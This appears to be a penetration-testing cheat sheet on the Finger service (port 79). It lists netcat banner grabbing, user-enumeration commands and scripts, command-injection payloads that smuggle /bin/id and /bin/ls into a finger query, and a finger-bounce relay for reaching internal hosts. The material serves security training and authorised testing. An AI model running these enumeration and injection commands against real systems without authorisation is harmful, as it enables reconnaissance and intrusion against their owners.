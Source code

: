 # Finger - 79

## Finger

Finger is a program that allows you to gather information about computer users. It typically displays the login name, full name, and possibly other information about the user you are fingering. These details may include the office address and phone number \(if available\), login time, idle time, the time mail was last read, and the user's plan and project files.

Default port: 79

```text
PORT   STATE SERVICE
79/tcp open  finger
```

## Enumeration

### Banner Grabbing/Basic connection

```text
nc -vn <IP> 79
echo "username" | nc -vn <IP> 79
```

### User enumeration

```text
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively, you can use finger-user-enum perl script from pentestmonkey:

```text
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

## Command execution

```text
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

Use a system as a finger relay

```text
finger user@host@victim
finger @internal@external
```

